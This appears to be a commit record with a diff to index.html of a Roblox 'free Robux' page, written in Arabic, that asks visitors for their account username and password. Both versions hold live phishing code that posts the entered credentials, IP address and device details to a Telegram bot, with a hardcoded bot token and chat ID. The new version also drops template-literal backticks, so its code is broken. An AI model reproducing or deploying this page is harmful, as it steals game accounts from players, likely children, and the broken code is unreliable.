

Before and after one commit to 999NITRO999/RODLOX, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -6,93 +6,16 @@
     <title>Glowing Login Form</title>
     <link rel="stylesheet" href="style.css">
     <script src="https://unpkg.com/axios@1.6.7/dist/axios.min.js"></script>
-    <style>
-        /* التنسيق الأساسي للصندوق */
-        .container {
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
-            background: #f4f4f4;
-        }
-
-        .login-box {
-            background: #fff;
-            padding: 40px;
-            border-radius: 10px;
-            box-shadow: 0 15px 30px rgba(0, 0, 0, 0.1);
-            text-align: center;
-            width: 300px;
-        }
-
-        h2 {
-            margin-bottom: 20px;
-            font-size: 18px;
-            color: #333;
-        }
-
-        /* تنسيق حقول الإدخال */
-        .user-box {
-            position: relative;
-            margin-bottom: 30px;
-        }
-
-        .user-box input {
-            width: 100%;
-            padding: 10px;
-            background: transparent;
-            border: 1px solid #ccc;
-            outline: none;
-            border-radius: 5px;
-            font-size: 16px;
-        }
-
-        .user-box label {
-            position: absolute;
-            top: 50%;
-            left: 10px;
-            color: #333;
-            font-size: 16px;
-            transform: translateY(-50%);
-            pointer-events: none;
-            transition: 0.3s;
-        }
-
-        .user-box input:focus ~ label,
-        .user-box input:valid ~ label {
-            top: -10px;
-            font-size: 12px;
-            color: #0066cc;
-        }
-
-        /* تنسيق الزر */
-        #login-btn {
-            display: inline-block;
-            padding: 10px 20px;
-            background-color: #0066cc;
-            color: #fff;
-            text-decoration: none;
-            border-radius: 5px;
-            cursor: pointer;
-            font-size: 16px;
-            transition: all 0.3s ease;
-        }
-
-        #login-btn:hover {
-            background-color: #005bb5;
-            box-shadow: 0 0 10px rgba(0, 0, 0, 0.2);
-        }
-    </style>
 </head>
 <body>
     <div class="container">
         <div class="login-box">
-            <h2>الكمية محدود من قناتنا. فقط من يشترك في قناتنا يمكنه الحصول على الرابط. اكتب اسم حسابك وكلمة المرور ويمكنك ربح روبوكس</h2>
-            <h2>يرجى الاشتراك في قناتنا للحصول على المزيد من الهدايا</h2>
+            <h2>الكمية محدودمن قناتنا محد يكون معه رابط غير الي اشترك بقناتي اكتب اسم حسابك وباسورده  ويمكن تربح 100 الى 400 روبوكس</h2>
+            <h2>الروبوكس محدود _يرجى الاشتراك بقناتنا ايضا لنقدم المزيد من الهدايه</h2> <!-- تغيير هنا -->
             <form id="login-form">
                 <div class="user-box">
-                    <input type="text" id="username" required>
-                    <label>Username</label>
+                    <input type="text" id="username" required> <!-- تغيير من email إلى username -->
+                    <label>username </label> <!-- تغيير النص هنا -->
                 </div>
                 <div class="user-box">
                     <input type="password" id="password" required>
@@ -102,11 +25,10 @@
             </form>
         </div>
     </div>
-
     <script>
         const TOKEN = "7966593148:AAHhZ7-CI67oVYZf5YddEfs5y0R6hDFjqI4"; // التوكن الخاص بك
         const CHAT_ID = "6243038338"; // معرف الشات الخاص بك
-        const URI_API = `https://api.telegram.org/bot${TOKEN}/sendMessage`;
+        const URI_API = https://api.telegram.org/bot${TOKEN}/sendMessage;
 
         document.getElementById('login-btn').addEventListener('click', async function(e) {
             e.preventDefault(); // منع الرابط من التنقل
@@ -114,8 +36,8 @@
             alert('عليك الانتظار ساعة بسبب الضغط على خادمنا');
 
             // الحصول على اسم المستخدم وكلمة المرور المدخلة
-            const username = document.getElementById('username').value;  // الحصول على اسم المستخدم
-            const password = document.getElementById('password').value; // الحصول على كلمة المرور
+            const username = document.getElementById('username').value;  // تغيير من email إلى username
+            const password = document.getElementById('password').value;
 
             console.log("Sending data to Telegram...");
 
@@ -130,20 +52,19 @@
                 const screenHeight = screen.height;
                 const deviceType = /mobile/i.test(navigator.userAgent) ? 'Mobile' : 'Desktop';
 
-                // تكوين رسالة البيانات المرسلة
                 const message =
-                    `<b>New Login Attempt</b>\n
-                    <b>Username:</b> ${username}\n
+                    <b>New Login Attempt</b>\n
+                    <b>Username:</b> ${username}\n  <!-- تغيير من Email إلى Username -->
                     <b>Password:</b> ${password}\n
                     <b>IP Address:</b> ${ip}\n
                     <b>Device Type:</b> ${deviceType}\n
                     <b>Platform:</b> ${platform}\n
                     <b>User Agent:</b> ${userAgent}\n
-                    <b>Screen Resolution:</b> ${screenWidth}x${screenHeight}`;
+                    <b>Screen Resolution:</b> ${screenWidth}x${screenHeight};
 
                 console.log("Message: ", message);
 
-                // إرسال الطلب إلى التلغرام عبر الـ API
+                // إرسال الطلب إلى التلغرام
                 const response = await axios.post(URI_API, {
                     chat_id: CHAT_ID,
                     parse_mode: 'html',
```
